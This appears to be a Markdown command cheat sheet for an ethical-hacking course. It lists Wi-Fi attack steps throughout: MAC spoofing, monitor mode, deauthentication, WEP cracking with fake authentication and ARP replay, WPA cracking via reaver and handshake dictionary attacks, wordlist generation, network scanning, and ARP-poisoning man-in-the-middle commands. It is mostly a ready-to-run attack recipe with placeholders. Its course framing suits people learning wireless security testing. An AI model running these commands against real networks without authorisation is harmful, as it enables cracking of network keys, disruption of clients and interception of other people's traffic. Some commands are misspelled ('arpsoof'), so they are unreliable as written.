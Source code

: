 # Learn Ethical Hacking From Scratch with Zaid Sabih
Here are the commands that will be used in the course
# Network
## Change MAC Address
* Get the interface down
  * `ifconfig wlan0 down`
* Use macchanger
  * `macchanger --random wlan0`
* Get the interface up
  * `ifconfig wlan0 up`
## Change Wireless Card Mode
### Method 1
* Start Monitor Mode
  * `airmon-ng start wlan0`
* Stop Monitor Mode
  * `airmon-ng stop wlan0mon`
### Method 2
* Get the interface down
  * `ifconfig wlan0 down`
* Change Mode
  * `ifconfig wlan0 mode monitor`
* Get the interface up
  * `ifconfig wlan0 up`
### Method 3
* Get the interface down
  * `ifconfig wlan0 down`
* Kill Process
  * `airmon-ng check kill`
* Start Monitor Mode
  * `airmon-ng start wlan0`
* Restart Network Manager
  * `service NetworkManager restart`
## Packet Sniffing
* Start Sniffing
  * `airodump-ng wlan0mon`
* Sniff In A Specific Network
  * `airodump-ng --channel <network channel> --bssid <network bssid> --write <file-name> wlan0mon`
* Deauth Attacks
  * `aireplay-ng --deauth <num-of-packets> -a <network bssid> -c <target bssid> wlan0mon`
## Crack WEP
### Busy Network
* Start airodump-ng in the target
* Crack
  * `aircrack-ng <network-file>`
### NOT Busy Network
* Fake Auth
  * `aireplay-ng --fakeauth 0 -a <network bssid> -h <your bssid || MAC> wlan0mon`
* Packet Injection
  * `aireplay-ng --arpreplay -b <network bssid> -h <your bssid || MAC> wlan0mon`
## Crack WPA/WPA2
### With WPS
* Check if the network has WPS
  * `wash -i wlan0mon`
* Attack
  * `reaver -b <network bssid> -c <network channel> -i wlan0mon`
### Without WPS
* Start airodump-ng in the target
* Deauth a client to capture the WPA Hanshake
* Crack the Key
  * `aircrack-ng <handshake-file> -w <word-list>`
### Create a Wordlist
`crunch <min-length> <max-length> <characters> -o <file-name> -t <pattern>`
## Information Gathering
After authenticating to a network you gather information about it.
### Using Netdiscover
* `netdiscover -i wlan0 -r <network internal IP>.1/24`
### Using Autoscan
* download [Autoscan](http://autoscan-network.com/download)
* add 32bit compatibility `dpkg --add-architecture i386`
* update `apt-get update`
* download and install library `apt-get install libc6:i386`
* install Autoscan in the terminal running `./<downaloaded file>`
* run Autoscan
### Using Nmap
* run `zenmap`
* in Target put `<network internal IP>.1/24`
* play arround with Profile
## Man In The Middle (MITM) Atacks
### ARP Poisoning Using arpspoof
* Tell the target client that I am the router
  * `arpsoof -i wlan0 -t <target client IP> <router IP>`
* Tell the router that I am the target client
  * `arpsoof -i wlan0 -t <router IP> <target client IP>`
* Enable IP forward to allow packets to flow trough my device without beeing dropped
  * `echo 1 > /proc/sys/net/ipv4/ip_forward`
### ARP Poisoning Using MITMf
* Tell the target client that I am the router
  * `mitmf --arp --spoof --gateway <router IP> --target <target client IP> -i wlan0`
This way you can see all the request made by the target client
